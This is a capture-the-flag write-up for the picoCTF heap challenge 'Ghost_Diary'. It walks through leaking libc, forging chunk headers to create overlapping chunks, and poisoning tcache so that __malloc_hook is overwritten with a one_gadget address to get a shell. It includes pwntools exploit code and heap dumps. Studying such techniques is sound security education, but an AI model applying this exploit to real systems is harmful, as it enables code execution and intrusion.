

# Ghost_Diary (pwn, pico, heap-exploitation, use-after-free, malloc_hook)

### Notes
- binary given
- libc 2.27 with checks enabled

### Enumeration
This is first hard task without source code provided. Let' start with quick enumeration:

```bash
$ file ghostdiary
ghostdiary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=da28ccb1f0dd0767b00267e07886470347987ce2, stripped
```

Binary is stripped meaning there are no symbols like `main` in it. This will make reverse engineering part way harder. As objdump was quite large let's first run a program under Ghidra to get a better understanding of what it does. Thanks to puts and printfs it is quite easy to recover what program does. 

Here is a simplified version of it.

```c

uint sizes[20];
char *pages[20];

void create_new_page() {
    uint idx = 0;
    while (idx < 20 && pages[idx]) ++idx;
    if (idx == 20) {
        return;
    }
    
    uint size;
    scanf("%d", size);
    if ((0xf1 < size && size < 0x10f) || (size > 0x1e1)) return;
    pages[idx] = malloc(size);
    sizes[idx] = size;
}

void write_on_page() {
    uint idx, size;
    scanf("%d", idx);
    page = pages[idx];
    if (!page) return;
    size = sizes[idx];
    read(stdin, page, size);
    page[size] = '\x00';
}

void read_page() {
    uint idx;
    scanf("%d", idx);
    page = pages[idx];
    if (!page) return;
    printf("%s", page);
}

void destroy_page() {
    uint idx;
    scanf("%d", idx);
    page = pages[idx];
    if (!page) return;
    free(page);
    pages[idx] = 0;
}

int main() {
    alarm(0x3c);
    signal(0xe, exit);

    while (1) {
        char cmd = getchar()
        switch (cmd) {
            case 0:
                create_new_page(); // New page in diary
                break;
            case 1:
                write_on_page(); // Talk to ghost
                break;
            case 2:
                read_page(); // Listen to ghost
                break;
            case 3:
                destroy_page(); // Burn the page
                break;
            case 4:
                exit(0); // Go to sleep
        }
    }
}
```

Before moving to vulnerabilities let's take care of `alarm + signal` function as it makes debuging a nightmare. The program exits after 0x3c seconds. Let's patch the binary under hexedit overwriting alarm instruction with nops.

```bash
$ objdump -d -M intel ghostdiary | grep -A1 -B2 alarm
     ff3:	e8 18 f9 ff ff       	call   910 <setvbuf@plt>
     ff8:	bf 3c 00 00 00       	mov    edi,0x3c
     ffd:	e8 be f8 ff ff       	call   8c0 <alarm@plt>
    1002:	48 8d 35 69 ff ff ff 	lea    rsi,[rip+0xffffffffffffff69]
$ objdump -d -M intel ghostdiary-patched | grep -A5 -B2 ffd
     ff3:	e8 18 f9 ff ff       	call   910 <setvbuf@plt>
     ff8:	bf 3c 00 00 00       	mov    edi,0x3c
     ffd:	90                   	nop
     ffe:	90                   	nop
     fff:	90                   	nop
    1000:	90                   	nop
    1001:	90                   	nop
    1002:	48 8d 35 69 ff ff ff 	lea    rsi,[rip+0xffffffffffffff69]
```

Now as we have dealed with obscurity let's check the program real protections:

```bash
$ checksec ghostdiary
[*] './ghostdiary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


## Leaking libc_base address

Uh.. binary was compiled as Position Independant Executable, meaning we perhaps need a way to leak some address. The goal is to obtain a shell, so we need to find a way to control the instruction pointer.

Ok, now let's spot some vulnerabilities. We need something to play with!

First we can spot that the memory is not being cleaned before returning it to user. For example let's see how we can leak a libc address.

This is my python script which I wrote using pwntools for retriving libc_base address.

```python

# Constans found by manual enumeration
SMALL_BIN_OFFSET = 0x3ebf10 # I will show how to find it in a sec

def get_libc_base():
    # 7 chunk for tcache + 2 chunks for small bin list + 1 chunk to prevent from consolidation with top chunk
    for i in range(0, 10):
        allocate_page(psize(0x134))

    # Fill tchace with pages [0-6] + small bin with pages [7-8]. Page with idx.7 will contain libc small bin address in fd field.
    for i in range(0, 9):
        free_page(page(i))

    # As tcache is a LIFO, the chunk containing address of page 0 as fd field has now index 5.
    # Chunk containing libc address is now indexed as page 7
    for i in range(0, 9):
        allocate_page(psize(0x134))

    small_bin_addr = read_page(b'7')[:8]
    pad_len = 8 - len(small_bin_addr)
    small_bin_addr = u64(small_bin_addr + pad_len * b'\x00') # pad as printf string won't print null bytes
    log.info("Small_bin_addr: " + hex(small_bin_addr))

    libc_base = small_bin_addr - SMALL_BIN_OFFSET
    log.info("Libc base: " + hex(libc_base))
```

How can we get SMALL_BIN_OFFSET? Well when debuging I've used amazing pwntools feature to attach a process to gdb.

```python
gdb.attach(p)
raw_input(b'Continue and press ENTER to send payload')
get_libc_base()
exit_program() # to breakpoint on exit_group
```

This will open a new terminal. Normaly we would then set a breakpoint on `main` function and continue. But as we don't have any symbols avaible we need to find a way around. I've decided to use peda instruction `catch syscall 231` to breakpoint on exit_group syscall. This way we can examine the heap right after get_libc_base() function.

This let's us find SMALL_BIN_OFFSET. 
Our script will find small_bin_addr:

```bash
$ python3 exp.py
[+] Starting local process './ghostdiary': pid 4460
[*] running in new terminal: /usr/bin/gdb -q  "./ghostdiary" 4460 -x "/tmp/pwnivztx7hm.gdb"
[+] Waiting for debugger: Done
Continue and press ENTER to send payload
[*] Small_bin_addr: 0x7ffff7dcff10
```

While our gdb will breakpoint on exit_group syscall. We can now examine the libc_base:

```
Catchpoint 1 (call to syscall exit_group), 0x00007fcdd81d5e06 in __GI__exit (
    status=0x0) at ../sysdeps/unix/sysv/linux/_exit.c:31
31	../sysdeps/unix/sysv/linux/_exit.c: No such file or directory.
gdb-peda$ vmmap
0x0000555555554000 0x0000555555556000 r-xp	/home/k/pico/ghost_diary/ghostdiary
0x0000555555755000 0x0000555555756000 r--p	/home/k/pico/ghost_diary/ghostdiary
0x0000555555756000 0x0000555555757000 rw-p	/home/k/pico/ghost_diary/ghostdiary
0x0000555555757000 0x0000555555778000 rw-p	[heap]
0x00007ffff79e4000 0x00007ffff7bcb000 r-xp	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 ---p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 r--p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 rw-p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 rw-p	mapped
0x00007ffff7dd5000 0x00007ffff7dfc000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7fd9000 0x00007ffff7fdb000 rw-p	mapped
0x00007ffff7ff7000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

So libc was loaded under 0x7ffff79e4000 and the small_bin_addr is 0x7ffff7dcff10. This means that SMALL_BIN_OFFSET = 0x7ffff7dcff10 - 0x7ffff79e4000 = 0x3ebf10

## Taking control over instruction pointer
Ok, so now when we can find a libc_base address we just have to take control over instruction pointer to call `execve` from libc.

### malloc hook
Let's think for a bit on how we would like to call it. We don't have an address of GOT table, so we need to overwrite something else. After a while I found that every time a `malloc` is called, the glibc checks if address of `__malloc_hook` was set. If it is not equal to null the function specified under this address will be called. 

```gdb
gdb-peda$ p __malloc_hook
$1 = (void *(*)(size_t, const void *)) 0x0
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dcfc30 <__malloc_hook>
```

Note that 0x7ffff7dcfc30 lies in [0x00007ffff7dcf000 - 0x00007ffff7dd1000] memory range which is writable. Meaning we just need need to find a way to overwrite it.
Let's calculate the MALLOC_HOOK_OFFSET as it will be useful later on:
MALLOC_HOOK_OFFSET = 0x7ffff7dcfc30 - 0x7ffff79e4000 = 0x3ebc30

### unlink macro won't work
Ok, so at this point I thought that we are done as we just need to invoke `unlink macro exploit`. But unfortunetely the program was linked with glibc 2.27, meaning the `unlink macro` exploit won't work. We would fail on `corrupted double-linked list` security check which checks if P->fd->bk == P and P->bk->fd == P, where P is a chunk being unlinked.

### fake chunk
This makes things complicated. We need to find a way to overwrite __malloc_hook. What if we trick program to return us page which is allocated not on the heap, but somewhere where __malloc_hook is defined? This would be perfect as we can then legitimely write on this page (Talk to the ghost command).

This could be possible if we control the `fd` attribute of a chunk in single-linked-list (fastbin or tcache).



Ok, so we need to find a way to controll an FD field of a chunk in fastbin/tcache list. This means we need to make glibc think that some chunk was free, but at the same time be able to write on it. It would be super easy if for example the _burn the page_ command wouldn't set the page[idx] to NULL.

To get the UAF we will need to make two chunks overlap. This will be the hardest point of this whole challenge.

Let's first allocate 4 chunks:

```python
allocate_page(psize(0x140)) # idx. 7, chunk A
write_on_page(page(7), b'A' * 0x138)
allocate_page(psize(0x70)) # idx. 8, chunk B
write_on_page(page(8), b'B' * 0x68)
allocate_page(psize(0x140)) # idx. 9, chunk C
write_on_page(page(9), b'C' * 0x138)
allocate_page(psize(0x18)) # to prevent from top chunk consolidation, idx. 10, chunk D
write_on_page(page(10), b'D' * 0x10)
```

and examine the heap:

```gdb
0x555555758700:	0x0000000000000000	0x0000000000000141
0x555555758710:	0x4141414141414141	0x4141414141414141
0x555555758720:	0x4141414141414141	0x4141414141414141
0x555555758730:	0x4141414141414141	0x4141414141414141
0x555555758740:	0x4141414141414141	0x4141414141414141
0x555555758750:	0x4141414141414141	0x4141414141414141
0x555555758760:	0x4141414141414141	0x4141414141414141
0x555555758770:	0x4141414141414141	0x4141414141414141
0x555555758780:	0x4141414141414141	0x4141414141414141
0x555555758790:	0x4141414141414141	0x4141414141414141
0x5555557587a0:	0x4141414141414141	0x4141414141414141
0x5555557587b0:	0x4141414141414141	0x4141414141414141
0x5555557587c0:	0x4141414141414141	0x4141414141414141
0x5555557587d0:	0x4141414141414141	0x4141414141414141
0x5555557587e0:	0x4141414141414141	0x4141414141414141
0x5555557587f0:	0x4141414141414141	0x4141414141414141
0x555555758800:	0x4141414141414141	0x4141414141414141
0x555555758810:	0x4141414141414141	0x4141414141414141
0x555555758820:	0x4141414141414141	0x4141414141414141
0x555555758830:	0x4141414141414141	0x4141414141414141
0x555555758840:	0x4141414141414141	0x0000000000000071
0x555555758850:	0x4242424242424242	0x4242424242424242
0x555555758860:	0x4242424242424242	0x4242424242424242
0x555555758870:	0x4242424242424242	0x4242424242424242
0x555555758880:	0x4242424242424242	0x4242424242424242
0x555555758890:	0x4242424242424242	0x4242424242424242
0x5555557588a0:	0x4242424242424242	0x4242424242424242
0x5555557588b0:	0x4242424242424242	0x0000000000000141
0x5555557588c0:	0x4343434343434343	0x4343434343434343
0x5555557588d0:	0x4343434343434343	0x4343434343434343
0x5555557588e0:	0x4343434343434343	0x4343434343434343
0x5555557588f0:	0x4343434343434343	0x4343434343434343
0x555555758900:	0x4343434343434343	0x4343434343434343
0x555555758910:	0x4343434343434343	0x4343434343434343
0x555555758920:	0x4343434343434343	0x4343434343434343
0x555555758930:	0x4343434343434343	0x4343434343434343
0x555555758940:	0x4343434343434343	0x4343434343434343
0x555555758950:	0x4343434343434343	0x4343434343434343
0x555555758960:	0x4343434343434343	0x4343434343434343
0x555555758970:	0x4343434343434343	0x4343434343434343
0x555555758980:	0x4343434343434343	0x4343434343434343
0x555555758990:	0x4343434343434343	0x4343434343434343
0x5555557589a0:	0x4343434343434343	0x4343434343434343
0x5555557589b0:	0x4343434343434343	0x4343434343434343
0x5555557589c0:	0x4343434343434343	0x4343434343434343
0x5555557589d0:	0x4343434343434343	0x4343434343434343
0x5555557589e0:	0x4343434343434343	0x4343434343434343
0x5555557589f0:	0x4343434343434343	0x000000000001f400
```

Chunk D will prevent from consolidation with top chunk.

Now let's free chunk A.

```python
# Free chunk 7. Later on when we will free chunk 9 we will want to consolidate it together with chunk 7.
free_page(page(7))
```

```gdb
0x555555758700:	0x0000000000000000	0x0000000000000141
0x555555758710:	0x4141414141414141	0x4141414141414141
0x555555758720:	0x4141414141414141	0x4141414141414141
0x555555758730:	0x4141414141414141	0x4141414141414141
0x555555758740:	0x4141414141414141	0x4141414141414141
0x555555758750:	0x4141414141414141	0x4141414141414141
0x555555758760:	0x4141414141414141	0x4141414141414141
0x555555758770:	0x4141414141414141	0x4141414141414141
0x555555758780:	0x4141414141414141	0x4141414141414141
0x555555758790:	0x4141414141414141	0x4141414141414141
0x5555557587a0:	0x4141414141414141	0x4141414141414141
0x5555557587b0:	0x4141414141414141	0x4141414141414141
0x5555557587c0:	0x4141414141414141	0x4141414141414141
0x5555557587d0:	0x4141414141414141	0x4141414141414141
0x5555557587e0:	0x4141414141414141	0x4141414141414141
0x5555557587f0:	0x4141414141414141	0x4141414141414141
0x555555758800:	0x4141414141414141	0x4141414141414141
0x555555758810:	0x4141414141414141	0x4141414141414141
0x555555758820:	0x4141414141414141	0x4141414141414141
0x555555758830:	0x4141414141414141	0x4141414141414141
0x555555758840:	0x0000000000000140	0x0000000000000070
0x555555758850:	0x4242424242424242	0x4242424242424242
0x555555758860:	0x4242424242424242	0x4242424242424242
0x555555758870:	0x4242424242424242	0x4242424242424242
0x555555758880:	0x4242424242424242	0x4242424242424242
0x555555758890:	0x4242424242424242	0x4242424242424242
0x5555557588a0:	0x4242424242424242	0x4242424242424242
0x5555557588b0:	0x4242424242424242	0x0000000000000141
0x5555557588c0:	0x4343434343434343	0x4343434343434343
0x5555557588d0:	0x4343434343434343	0x4343434343434343
0x5555557588e0:	0x4343434343434343	0x4343434343434343
0x5555557588f0:	0x4343434343434343	0x4343434343434343
0x555555758900:	0x4343434343434343	0x4343434343434343
0x555555758910:	0x4343434343434343	0x4343434343434343
0x555555758920:	0x4343434343434343	0x4343434343434343
0x555555758930:	0x4343434343434343	0x4343434343434343
0x555555758940:	0x4343434343434343	0x4343434343434343
0x555555758950:	0x4343434343434343	0x4343434343434343
0x555555758960:	0x4343434343434343	0x4343434343434343
0x555555758970:	0x4343434343434343	0x4343434343434343
0x555555758980:	0x4343434343434343	0x4343434343434343
0x555555758990:	0x4343434343434343	0x4343434343434343
0x5555557589a0:	0x4343434343434343	0x4343434343434343
0x5555557589b0:	0x4343434343434343	0x4343434343434343
0x5555557589c0:	0x4343434343434343	0x4343434343434343
0x5555557589d0:	0x4343434343434343	0x4343434343434343
0x5555557589e0:	0x4343434343434343	0x4343434343434343
0x5555557589f0:	0x4343434343434343	0x000000000001f400
```

As we can see, the previn use bit is now unset and prev size is filled in chunk's B header. 

Now let's overflow chunk C.

```python
# Overwrite prev inuse bit located in chunk 9 header. This will also decrease size of chunk 9 from 0x140 to 0x100. Set the previous block size to 0x1b0 (0x140 + 0x70), so that block 9 thinks that blocks 7+8 is just one huge free block.
write_on_page(page(8), b'8' * 0x60 + pack('<Q', 0x1b0))
```

```gdb
0x555555758700:	0x0000000000000000	0x0000000000000141
0x555555758710:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
0x555555758720:	0x4141414141414141	0x4141414141414141
0x555555758730:	0x4141414141414141	0x4141414141414141
0x555555758740:	0x4141414141414141	0x4141414141414141
0x555555758750:	0x4141414141414141	0x4141414141414141
0x555555758760:	0x4141414141414141	0x4141414141414141
0x555555758770:	0x4141414141414141	0x4141414141414141
0x555555758780:	0x4141414141414141	0x4141414141414141
0x555555758790:	0x4141414141414141	0x4141414141414141
0x5555557587a0:	0x4141414141414141	0x4141414141414141
0x5555557587b0:	0x4141414141414141	0x4141414141414141
0x5555557587c0:	0x4141414141414141	0x4141414141414141
0x5555557587d0:	0x4141414141414141	0x4141414141414141
0x5555557587e0:	0x4141414141414141	0x4141414141414141
0x5555557587f0:	0x4141414141414141	0x4141414141414141
0x555555758800:	0x4141414141414141	0x4141414141414141
0x555555758810:	0x4141414141414141	0x4141414141414141
0x555555758820:	0x4141414141414141	0x4141414141414141
0x555555758830:	0x4141414141414141	0x4141414141414141
0x555555758840:	0x0000000000000140	0x0000000000000070
0x555555758850:	0x4242424242424242	0x4242424242424242
0x555555758860:	0x4242424242424242	0x4242424242424242
0x555555758870:	0x4242424242424242	0x4242424242424242
0x555555758880:	0x4242424242424242	0x4242424242424242
0x555555758890:	0x4242424242424242	0x4242424242424242
0x5555557588a0:	0x4242424242424242	0x4242424242424242
0x5555557588b0:	0x00000000000001b0	0x0000000000000100
0x5555557588c0:	0x4343434343434343	0x4343434343434343
0x5555557588d0:	0x4343434343434343	0x4343434343434343
0x5555557588e0:	0x4343434343434343	0x4343434343434343
0x5555557588f0:	0x4343434343434343	0x4343434343434343
0x555555758900:	0x4343434343434343	0x4343434343434343
0x555555758910:	0x4343434343434343	0x4343434343434343
0x555555758920:	0x4343434343434343	0x4343434343434343
0x555555758930:	0x4343434343434343	0x4343434343434343
0x555555758940:	0x4343434343434343	0x4343434343434343
0x555555758950:	0x4343434343434343	0x4343434343434343
0x555555758960:	0x4343434343434343	0x4343434343434343
0x555555758970:	0x4343434343434343	0x4343434343434343
0x555555758980:	0x4343434343434343	0x4343434343434343
0x555555758990:	0x4343434343434343	0x4343434343434343
0x5555557589a0:	0x4343434343434343	0x4343434343434343
0x5555557589b0:	0x4343434343434343	0x4343434343434343
0x5555557589c0:	0x4343434343434343	0x4343434343434343
0x5555557589d0:	0x4343434343434343	0x4343434343434343
0x5555557589e0:	0x4343434343434343	0x4343434343434343
0x5555557589f0:	0x4343434343434343	0x000000000001f400
```

Now we need to create two fake chunks in space of chunk C. This will bypass security checks when invoking free(chunk C) in next step:

```python
# Create two fake chunks inside chunk 9. This is possible as we just decreased the size of it from 0x140 to 0x100 so we have 0x40 bytes left for manipulation. We need this as glibc 2.27 free has many checks.
write_on_page(page(9), b'C' * 0xf8 + pack('<Q', 0x17) + b'\x00' * 8 + pack('<Q', 0x17))
```

```gdb
0x555555758700:	0x0000000000000000	0x0000000000000141
0x555555758710:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
0x555555758720:	0x4141414141414141	0x4141414141414141
0x555555758730:	0x4141414141414141	0x4141414141414141
0x555555758740:	0x4141414141414141	0x4141414141414141
0x555555758750:	0x4141414141414141	0x4141414141414141
0x555555758760:	0x4141414141414141	0x4141414141414141
0x555555758770:	0x4141414141414141	0x4141414141414141
0x555555758780:	0x4141414141414141	0x4141414141414141
0x555555758790:	0x4141414141414141	0x4141414141414141
0x5555557587a0:	0x4141414141414141	0x4141414141414141
0x5555557587b0:	0x4141414141414141	0x4141414141414141
0x5555557587c0:	0x4141414141414141	0x4141414141414141
0x5555557587d0:	0x4141414141414141	0x4141414141414141
0x5555557587e0:	0x4141414141414141	0x4141414141414141
0x5555557587f0:	0x4141414141414141	0x4141414141414141
0x555555758800:	0x4141414141414141	0x4141414141414141
0x555555758810:	0x4141414141414141	0x4141414141414141
0x555555758820:	0x4141414141414141	0x4141414141414141
0x555555758830:	0x4141414141414141	0x4141414141414141
0x555555758840:	0x0000000000000140	0x0000000000000070
0x555555758850:	0x4242424242424242	0x4242424242424242
0x555555758860:	0x4242424242424242	0x4242424242424242
0x555555758870:	0x4242424242424242	0x4242424242424242
0x555555758880:	0x4242424242424242	0x4242424242424242
0x555555758890:	0x4242424242424242	0x4242424242424242
0x5555557588a0:	0x4242424242424242	0x4242424242424242
0x5555557588b0:	0x00000000000001b0	0x0000000000000100
0x5555557588c0:	0x4343434343434343	0x4343434343434343
0x5555557588d0:	0x4343434343434343	0x4343434343434343
0x5555557588e0:	0x4343434343434343	0x4343434343434343
0x5555557588f0:	0x4343434343434343	0x4343434343434343
0x555555758900:	0x4343434343434343	0x4343434343434343
0x555555758910:	0x4343434343434343	0x4343434343434343
0x555555758920:	0x4343434343434343	0x4343434343434343
0x555555758930:	0x4343434343434343	0x4343434343434343
0x555555758940:	0x4343434343434343	0x4343434343434343
0x555555758950:	0x4343434343434343	0x4343434343434343
0x555555758960:	0x4343434343434343	0x4343434343434343
0x555555758970:	0x4343434343434343	0x4343434343434343
0x555555758980:	0x4343434343434343	0x4343434343434343
0x555555758990:	0x4343434343434343	0x4343434343434343
0x5555557589a0:	0x4343434343434343	0x4343434343434343
0x5555557589b0:	0x4343434343434343	0x0000000000000017
0x5555557589c0:	0x0000000000000000	0x0000000000000017
0x5555557589d0:	0x4343434343434300	0x4343434343434343
0x5555557589e0:	0x4343434343434343	0x4343434343434343
0x5555557589f0:	0x4343434343434343	0x000000000001f400
```

Now we are ready to call free(chunk C).

```python
# Here we trick malloc. We free only chunk 9, but the glibc will check if previous block is free. It is as we have freed it before (free_page(page(7)). So glibc will consolidate it with the previous block. Now glibc thinks that all blocks 7, 8 and 9 were freed. In reality we have still a pointer to block 8.
free_page(page(9))
```

```gdb
0x555555758700:	0x0000000000000000	0x00000000000002b1
0x555555758710:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
0x555555758720:	0x4141414141414141	0x4141414141414141
0x555555758730:	0x4141414141414141	0x4141414141414141
0x555555758740:	0x4141414141414141	0x4141414141414141
0x555555758750:	0x4141414141414141	0x4141414141414141
0x555555758760:	0x4141414141414141	0x4141414141414141
0x555555758770:	0x4141414141414141	0x4141414141414141
0x555555758780:	0x4141414141414141	0x4141414141414141
0x555555758790:	0x4141414141414141	0x4141414141414141
0x5555557587a0:	0x4141414141414141	0x4141414141414141
0x5555557587b0:	0x4141414141414141	0x4141414141414141
0x5555557587c0:	0x4141414141414141	0x4141414141414141
0x5555557587d0:	0x4141414141414141	0x4141414141414141
0x5555557587e0:	0x4141414141414141	0x4141414141414141
0x5555557587f0:	0x4141414141414141	0x4141414141414141
0x555555758800:	0x4141414141414141	0x4141414141414141
0x555555758810:	0x4141414141414141	0x4141414141414141
0x555555758820:	0x4141414141414141	0x4141414141414141
0x555555758830:	0x4141414141414141	0x4141414141414141
0x555555758840:	0x0000000000000140	0x0000000000000070
0x555555758850:	0x4242424242424242	0x4242424242424242
0x555555758860:	0x4242424242424242	0x4242424242424242
0x555555758870:	0x4242424242424242	0x4242424242424242
0x555555758880:	0x4242424242424242	0x4242424242424242
0x555555758890:	0x4242424242424242	0x4242424242424242
0x5555557588a0:	0x4242424242424242	0x4242424242424242
0x5555557588b0:	0x00000000000001b0	0x0000000000000100
0x5555557588c0:	0x4343434343434343	0x4343434343434343
0x5555557588d0:	0x4343434343434343	0x4343434343434343
0x5555557588e0:	0x4343434343434343	0x4343434343434343
0x5555557588f0:	0x4343434343434343	0x4343434343434343
0x555555758900:	0x4343434343434343	0x4343434343434343
0x555555758910:	0x4343434343434343	0x4343434343434343
0x555555758920:	0x4343434343434343	0x4343434343434343
0x555555758930:	0x4343434343434343	0x4343434343434343
0x555555758940:	0x4343434343434343	0x4343434343434343
0x555555758950:	0x4343434343434343	0x4343434343434343
0x555555758960:	0x4343434343434343	0x4343434343434343
0x555555758970:	0x4343434343434343	0x4343434343434343
0x555555758980:	0x4343434343434343	0x4343434343434343
0x555555758990:	0x4343434343434343	0x4343434343434343
0x5555557589a0:	0x4343434343434343	0x4343434343434343
0x5555557589b0:	0x00000000000002b0	0x0000000000000016
0x5555557589c0:	0x0000000000000000	0x0000000000000017
0x5555557589d0:	0x4343434343434300	0x4343434343434343
0x5555557589e0:	0x4343434343434343	0x4343434343434343
0x5555557589f0:	0x4343434343434343	0x000000000001f400
```

Now let's allocate a big page so it overlaps with chunk B.

```python
# Allocate big block which will overlap with block 8.
allocate_page(psize(0x1b0)) # idx. 0
```

```gdb
0x555555758700:	0x0000000000000000	0x00000000000001b1
0x555555758710:	0x00007ffff7dcff40	0x00007ffff7dcff40
0x555555758720:	0x4141414141414141	0x4141414141414141
0x555555758730:	0x4141414141414141	0x4141414141414141
0x555555758740:	0x4141414141414141	0x4141414141414141
0x555555758750:	0x4141414141414141	0x4141414141414141
0x555555758760:	0x4141414141414141	0x4141414141414141
0x555555758770:	0x4141414141414141	0x4141414141414141
0x555555758780:	0x4141414141414141	0x4141414141414141
0x555555758790:	0x4141414141414141	0x4141414141414141
0x5555557587a0:	0x4141414141414141	0x4141414141414141
0x5555557587b0:	0x4141414141414141	0x4141414141414141
0x5555557587c0:	0x4141414141414141	0x4141414141414141
0x5555557587d0:	0x4141414141414141	0x4141414141414141
0x5555557587e0:	0x4141414141414141	0x4141414141414141
0x5555557587f0:	0x4141414141414141	0x4141414141414141
0x555555758800:	0x4141414141414141	0x4141414141414141
0x555555758810:	0x4141414141414141	0x4141414141414141
0x555555758820:	0x4141414141414141	0x4141414141414141
0x555555758830:	0x4141414141414141	0x4141414141414141
0x555555758840:	0x0000000000000140	0x0000000000000070
0x555555758850:	0x4242424242424242	0x4242424242424242
0x555555758860:	0x4242424242424242	0x4242424242424242
0x555555758870:	0x4242424242424242	0x4242424242424242
0x555555758880:	0x4242424242424242	0x4242424242424242
0x555555758890:	0x4242424242424242	0x4242424242424242
0x5555557588a0:	0x4242424242424242	0x4242424242424242
0x5555557588b0:	0x00000000000001b0	0x0000000000000101
0x5555557588c0:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
0x5555557588d0:	0x4343434343434343	0x4343434343434343
0x5555557588e0:	0x4343434343434343	0x4343434343434343
0x5555557588f0:	0x4343434343434343	0x4343434343434343
0x555555758900:	0x4343434343434343	0x4343434343434343
0x555555758910:	0x4343434343434343	0x4343434343434343
0x555555758920:	0x4343434343434343	0x4343434343434343
0x555555758930:	0x4343434343434343	0x4343434343434343
0x555555758940:	0x4343434343434343	0x4343434343434343
0x555555758950:	0x4343434343434343	0x4343434343434343
0x555555758960:	0x4343434343434343	0x4343434343434343
0x555555758970:	0x4343434343434343	0x4343434343434343
0x555555758980:	0x4343434343434343	0x4343434343434343
0x555555758990:	0x4343434343434343	0x4343434343434343
0x5555557589a0:	0x4343434343434343	0x4343434343434343
0x5555557589b0:	0x0000000000000100	0x0000000000000016
0x5555557589c0:	0x0000000000000000	0x0000000000000017
0x5555557589d0:	0x4343434343434300	0x4343434343434343
0x5555557589e0:	0x4343434343434343	0x4343434343434343
0x5555557589f0:	0x4343434343434343	0x000000000001f400
```

And place chunk B in tcache single-linked list!

```python
# Free page 8, it will place it into a tcache of size 0x70 which is stored as a single liked list.
free_page(page(8))
```

Now chunk B lies in tcache single-linked list and we can modify it's fd pointer as we have access to page 0 which overlaps it!!!

```python
# Set the fd pointer of chunk 8 (hey, we can still do it as we have access to chunk 0 which is overlapping chunk 8. The new fd pointer will point to malloc_hook_address.
write_on_page(page(0), b'B' * (0x140 - 0x10) + pack('<Q', 0x140) + pack('<Q', 0x70) + p64(malloc_hook_addr))

# Now we need to perform two reads. The first will return previously freed chunk 8, but the second one will return as pointer to malloc_hook_address!
allocate_page(psize(0x70))
allocate_page(psize(0x70)) # malloc hook, idx. 2
```

The last command will return as a page nr.2, but instead of the heap it is placed at libc addresses starting at __malloc_hook. Writing on the page will overwrite it.
I've also used a `one_gadget` tool to call execve istead of having to prepare the whole rop.

```python
# New stuff! Somethimes we don't have to create a full ROP to call execve! We can do one_shot jmp. I've used one_gadget for it.
write_on_page(page(2), p64(libc_base + ONE_SHOT_OFFSET))
```

Lastly we have to invoke __malloc_hook by calling malloc. This is easy:

```python
# invoke execve
allocate_page(psize(0x18)) 

p.interactive()
```

And we have a shell!


## References 
https://devel0pment.de/?p=688
